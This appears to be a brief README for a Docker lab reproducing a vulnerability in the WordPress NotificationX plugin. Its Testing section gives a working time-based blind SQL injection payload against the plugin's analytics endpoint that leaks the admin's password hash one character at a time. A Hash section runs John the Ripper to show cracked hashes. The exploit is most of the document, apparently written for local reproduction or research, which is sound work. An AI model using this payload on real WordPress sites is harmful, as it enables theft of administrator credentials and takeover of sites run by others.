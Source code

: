## Set-up

```
docker-compose up --build
```

## Clean up
```
docker-compose down
```

## Testing

```
Measure-Command {
    curl.exe http://localhost/wp-json/notificationx/v1/analytics `
        -Method Post `
        -Body 'nx_id=1337&type=clicks`=IF(ASCII(SUBSTRING((select user_pass from wp_users where id=1),1,1))=36,SLEEP(10),null)-- -'
}
```


## Hash

del "C:\Users\Jesica Tjan\Downloads\winX64_1_JtR\JtR\run\john.pot"
john --show hash.txt